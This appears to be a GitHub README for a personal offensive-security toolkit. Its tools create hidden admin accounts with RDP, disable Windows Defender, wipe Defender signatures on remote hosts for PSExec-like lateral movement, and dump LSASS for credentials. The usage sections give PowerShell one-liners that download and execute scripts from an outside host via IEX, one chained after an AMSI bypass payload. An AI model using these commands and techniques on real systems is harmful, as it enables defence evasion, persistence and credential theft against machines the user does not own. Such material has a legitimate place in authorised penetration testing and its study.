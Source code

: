 # Miscellaneous

## ToC

| Application | Format | Notes |
| ----------- | ------ | ----- |
| `Autos` | PS | Scripts to automate things I found myself doing a lot |
| `AV_Stuff` | PS | Basic scripts for AV/Applocker Enumertion |
| `Fileless_Lateral_Movement` | EXE | PSExec-like tool utilizing remote service configuration for lateral movement |
| `MiniDump` | EXE/PS | A simple binary to Dump LSASS to a file for offline examination |


## `Autos`
Scripts to automate things I found myself doing a lot.

### Tools
- `Create-Admin.ps1`
    - Create a local Administrator user on the box and enable RDP
    - Requires: High Integrity process
- `Compress-ScriptBlock.ps1`
    - Minify a Powershell *ScriptBlock*. Pulled from [StartAutomating/PSMinifier](https://github.com/StartAutomating/PSMinifier)
    - Usage:
    ```ps1
    . .\Compress-ScriptBlock.ps1   # import it as a module
    $sb=get-command <tgt_file_path> | select -ExpandProperty ScriptBlock # get the scriptblock for your target file
    Compress-ScriptBlock -ScriptBlock $sb > <out_file>
    ```
    - Warning:
        - Its not perfect, I usually have to do a good amount of manual work
        - *Deletes default values for function parameters*


## `AV_Stuff`
Basic scripts for AV and Applocker Enumeration or Disabling that I created with the help of online resources (all credited).

### `Disable-AVProduct.ps1` 
Get the status of the Antivirus Product on local and Remote Computers, then if Windows Defender is detected locally, disable as much of it as possible.
- Credits:
    - `SyncroMSP` at [mspscripts.com](https://mspscripts.com/get-installed-antivirus-information-2/) for `Get-LHSAntiVirusProduct()`
- References:
    - [learn.microsoft.com](https://learn.microsoft.com/en-us/windows-hardware/customize/desktop/unattend/security-malware-windows-defender-disableantispyware)
    - [jeremybeaume/tools](https://github.com/jeremybeaume/tools/blob/master/disable-defender.ps1)
    - [viperone.gitbook.io/pentest-everything](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/defense-evasion/disable-defender)
- Requires:
    - Admin privs to disable stuff, enumeration part is fine
- Usage:
    ```ps1
    powershell.exe -ExecutionPolicy Bypass -c "(new-object system.net.webclient).downloadstring('http://192.168.45.166/Disable-AVProduct.ps1') | IEX;"
    ```
    - It doesn't get detected by my version of Defender (v4.18.1807.18075) since its really all semi-normal functionality, but if you have AMSI problems just bypass it first
    ```ps1
    powershell.exe -ExecutionPolicy Bypass -c "(new-object system.net.webclient).downloadstring('http://192.168.45.166/amsi.txt') | IEX; (new-object system.net.webclient).downloadstring('http://192.168.45.166/Disable-AVProduct.ps1') | IEX;"
    ```

#### `Disable-AVProduct.min.ps1`
A more concise `Disable-AVProduct.ps1` for active use. Each function is contained entirely on a newline, no comments, etc. Not obfuscated, just smaller (almost half-sized).

Might have some bugs because of the minifying process. I've tested it a decent amount and it works but if something comes up lmk!

### `Get-AppLockerRules.ps1`

Enumerate Applocker Rules. Very basic, will update in future.


## `PSLessExec`

Wipes Windows Defender signatures on the *remote host* and uses a `PSExec`-like method (except using an existing process) to achieve lateral movement. Takes arguments for the target, the target service, and the target binary to run. Note that a non-critical service should be chosen, such as `SensorService`.

### Usage

```
Usage:   PSLessExec.exe [Target] [Service]     [BinaryToRun]
Example: PSLessExec.exe appsrv01 SensorService notepad.exe
```

## `MiniDump`

A simple binary to Dump LSASS to `C:\Windows\Tasks\lsass.dmp`. Also provided as a native PowerShell script.
